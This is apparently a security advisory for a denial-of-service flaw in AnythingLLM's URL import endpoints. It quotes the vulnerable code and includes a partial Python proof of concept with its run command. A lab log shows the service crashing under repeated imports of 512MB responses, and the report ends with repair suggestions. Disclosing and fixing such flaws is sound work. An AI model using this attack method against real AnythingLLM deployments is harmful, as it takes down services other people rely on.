


## AnythingLLM has a denial of service vulnerability in the URL import interface

## supplier

https://github.com/Mintplex-Labs/anything-llm

## affected version

AnythingLLM 1.15.0

Docker image:

```text
mintplexlabs/anythingllm:latest
sha256:474da3f19af67cf7b70cded8f01719942c29c8fcbdd7378f94b764918088637d
```

## Vulnerability file

```text
server/endpoints/workspaces.js
server/endpoints/api/document/index.js
collector/processLink/convert/generic.js
collector/utils/downloadURIToFile/index.js
```

## describe

AnythingLLM has a denial of service vulnerability in the URL import interface.

The vulnerable interfaces are:

```text
POST /api/workspace/:slug/upload-link
POST /api/v1/document/upload-link
```

Attackers with access to the URL import feature can submit a URL that returns a large response. The backend collector fetches and processes the attacker-controlled remote content without sufficient response-size and processing limits. During the attack, the container memory reached the configured limit and the AnythingLLM service became unavailable.

## code analysis

The workspace URL import endpoint accepts the `link` parameter and directly sends it to the collector for processing.

```javascript
app.post(
  "/workspace/:slug/upload-link",
  [validatedRequest, flexUserRoleValid([ROLES.admin, ROLES.manager])],
  async (request, response) => {
    const { link = "" } = reqBody(request);
    const { success, reason } = await Collector.processLink(link);
  }
);
```

The public API URL import endpoint has the same processing path.

```javascript
app.post(
  "/v1/document/upload-link",
  [validApiKey, validateWorkspaceSlugQuery],
  async (request, response) => {
    const { link } = reqBody(request);
    const { success, reason, documents } = await Collector.processLink(link);
  }
);
```

For HTML/text content, when Puppeteer fails, the fallback path reads the whole response body into memory.

```javascript
const pageText = await fetch(link, {
  method: "GET",
  headers: {
    "Content-Type": "text/plain",
    "User-Agent": "...",
    ...validatedHeaders(headers),
  },
}).then((res) => res.text());
```

For file-like content, the remote response is streamed to disk without an explicit maximum byte limit.

```javascript
const res = await fetch(url, { signal: abortController.signal });
const writeStream = fs.createWriteStream(localFilePath);
await pipeline(res.body, writeStream);
```

Vulnerability point:



## POC

The following script starts a local controlled large-response HTTP server and repeatedly submits its URL to the AnythingLLM URL import endpoint:

```python
import concurrent.futures
import json
import sys
import threading
import time
import urllib.request
from http.server import BaseHTTPRequestHandler, ThreadingHTTPServer

target = sys.argv[1].rstrip("/")
workspace = sys.argv[2] if len(sys.argv) > 2 else "dos-url-lab"
concurrency = int(sys.argv[3]) if len(sys.argv) > 3 else 12
requests = int(sys.argv[4]) if len(sys.argv) > 4 else 12
size_mb = int(sys.argv[5]) if len(sys.argv) > 5 else 512
port = int(sys.argv[6]) if len(sys.argv) > 6 else 19092

# Full script is provided in poc_url_import_dos.py
```

Run:

```bash
python3 poc_url_import_dos.py http://target:13001 dos-url-lab 12 12 512 19092
```

The service became unavailable during the attack:

```text
C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_URL_Import_DoS_Report>
python poc_url_import_dos.py http://127.0.0.1:13001 dos-url-lab 12 12 512 19092
[2026-07-07 01:59:23] url_import_start target='upload-link' requests=12 concurrency=12 remote_size=512MB
[2026-07-07 01:59:23] ok=False latency=107.916s fail=1 detail=RemoteDisconnected('Remote end closed connection without response')
[2026-07-07 01:59:23] ok=False latency=107.919s fail=2 detail=RemoteDisconnected('Remote end closed connection without response')
[2026-07-07 01:59:23] ok=False latency=107.913s fail=3 detail=RemoteDisconnected('Remote end closed connection without response')
[02:01:15] health_check ok=False detail=ConnectionRefusedError(10061, 'Connection refused')
[02:01:20] RESULT=UNAVAILABLE
[02:01:20] url_import_summary submitted=12 failed=12

C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_URL_Import_DoS_Report>
docker ps -a --filter name=anythingllm-dos-lab --format "table {{.Names}}\t{{.Status}}"
NAMES                 STATUS
anythingllm-dos-lab   Exited (137) 5 seconds ago

C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_URL_Import_DoS_Report>
curl.exe -m 5 http://127.0.0.1:13001/api/ping
curl: (7) Failed to connect to 127.0.0.1 port 13001 after 2036 ms: Could not connect to server

C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_URL_Import_DoS_Report>
curl.exe -m 5 http://127.0.0.1:13001/api/ping
curl: (7) Failed to connect to 127.0.0.1 port 13001 after 2041 ms: Could not connect to server

C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_URL_Import_DoS_Report>
curl.exe -m 5 http://127.0.0.1:13001/api/ping
curl: (7) Failed to connect to 127.0.0.1 port 13001 after 2044 ms: Could not connect to server
```

Reproduction screenshot:



## impact

Attackers can make the AnythingLLM service unavailable by submitting crafted URL import requests that cause the backend collector to fetch and process excessive remote content.

## repair suggestion

1. Add a strict maximum response size for URL imports.
2. Reject excessive `Content-Length` before downloading remote content.
3. Enforce a streaming byte counter and abort oversized downloads.
4. Avoid calling `res.text()` on untrusted remote responses without a size guard.
5. Add per-user and global rate limits to URL import endpoints.
6. Add concurrency and queue-depth limits for document ingestion tasks.
7. Isolate collector/browser parsing workers so ingestion cannot take down the main service.
